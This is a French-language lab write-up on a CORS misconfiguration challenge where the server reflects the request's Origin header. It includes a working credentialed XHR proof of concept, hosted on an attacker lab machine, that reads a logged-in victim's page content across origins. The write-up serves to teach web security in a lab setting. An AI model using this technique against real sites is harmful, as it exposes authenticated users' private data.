





# Application Trust Arbritrary Origin

Les challenges sont accessibles après s'être authentifié avec les credentials ace/fire. Cet utilisateur va jouer le rôle de la victime tout au long des exercices.



Le challenge est disponible à la page `arbitrary_origin.php` . Il est également possible d'obtenir quelques informations supplémentaires sur l'erreur de configuration :



La page du challenge, accessible seulement en étant authentifié, contient une unique phrase :



L'objectif peut donc être ici d'exploiter cette mauvaise configuration de CORS afin de pouvoir lire le contenu de cette page.

En temps normal, lors de l'exécution d'une requête de type **`GET`** d'un domaine A vers un domaine B, la politique de même origine interdira la lecture de la réponse. Cela permet d'empêcher un site malicieux de lire le contenu des pages que visite la victime, mais CORS, selon sa configuration, peut permettre un tel comportement.&#x20;

Sur ce challenge, l'erreur de configuration du serveur a pour conséquence que la valeur de l'entête `Origin` de la requête est réfléchie comme valeur de réponse de l'entête CORS `Access-Control-Allow-Origin`. Cet entête sert de contrôle d'accès permettant d'autoriser seulement certains domaines (l'entête peut également avoir la valeur `*`) à demander des ressources. Etant donné ici que le domaine est systématiquement réfléchi, cette configuration revient au même que d'autoriser tous les domaines.

Il me suffit alors d'héberger le script suivant sur un serveur malicieux (à l'adresse 192.168.56.182) :

```markup
<html>
  <head>
    <title>CORS vulnerable lab - Arbitrary Origin</title>
  </head>

  <body>
    <script>
      var xhr = new XMLHttpRequest();

      xhr.open('GET', 'http://192.168.56.184/arbitrary_origin.php', true);
      xhr.withCredentials = true;

      xhr.onreadystatechange = function() {
        if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
          console.log(xhr.response);                    
        }
      }

      xhr.send();
    </script> 
  </body>
</html>
```

Puis, lorsque la victime, authentifiée sur le serveur vulnérable (à l'adresse 192.168.56.184), naviguera sur la page, la requête XHR sera exécutée par son navigateur. L'attaquant sera en mesure de récupérer tout le contenu de la page (à la place de l'afficher simplement dans la console) :



La réponse de Burp indique bien que l'entête `Access-Control-Allow-Origin` réfléchi bien le domaine effectuant la requête, soit ici `http://192.168.56.182` :


